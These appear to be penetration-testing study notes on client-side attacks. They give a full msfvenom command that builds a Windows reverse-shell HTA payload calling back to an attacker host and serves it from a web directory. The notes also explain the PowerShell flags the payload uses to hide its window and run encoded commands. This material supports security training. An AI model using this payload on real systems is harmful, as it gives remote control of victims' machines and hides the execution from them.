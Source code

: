 # Client Side Attacks

Generate and serve a client side attack that can be accessed from a browser on the target using HTML applications.  
`sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.240 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta`  

Looking at evil.hta:
* -nop, is shorthand for -NoProfile,1 which instructs PowerShell not to load the PowerShell user profile. When PowerShell is started, it will, by default, load any existing user's profile scripts, which might negatively impact the execution of our code. This option will avoid that potential issue.
* -w hidden (shorthand for -WindowStyle2 hidden) to avoid creating a window on the user's desktop.
* -e flag (shorthand for -EncodedCommand) allows us to supply a Base64 encoded PowerShell script directly as a command line argument.

